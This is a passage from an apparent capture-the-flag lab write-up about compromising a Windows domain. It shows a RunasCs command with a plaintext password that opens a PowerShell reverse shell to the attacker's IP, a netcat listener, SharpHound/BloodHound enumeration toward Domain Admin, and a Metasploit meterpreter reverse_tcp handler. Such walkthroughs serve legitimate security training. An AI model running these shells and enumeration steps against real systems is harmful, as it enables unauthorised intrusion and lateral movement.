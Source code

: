 
```
# Target
RunasCs.exe tstark playboy69 powershell -r 10.10.14.199:9001

# Attacker
nc -lvnp 9000
```


![](https://i.imgur.com/MiSugvq.png)


We can then go ahead and submit the user flag on the desktop of user `tstark`

![](https://i.imgur.com/wfvs2CA.png)


Then i decided to upload `SharpHound.exe` and then get a graphical view/attack path to Domain Admin


![](https://i.imgur.com/xE0roGB.png)

We can then run `SharpHound.exe` and then get a meterpreter shell as user `tstark` to download the file 


```
Sharphound.exe --CollectionMethods All
```

![](https://i.imgur.com/yHGFq6x.png)


Now get meterpreter shell as user tstark

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.199
set lport 1337
exploit
```



![](https://i.imgur.com/MaZufq8.png)


then download the file generated by `SharpHound.exe`



![](https://i.imgur.com/NdjriEM.png)


Checking bloodhound the user `ppots` and `tstark` both have a session to the DC, meaning we have to target user `ppots` now



![](https://i.imgur.com/VxrPwkr.png)
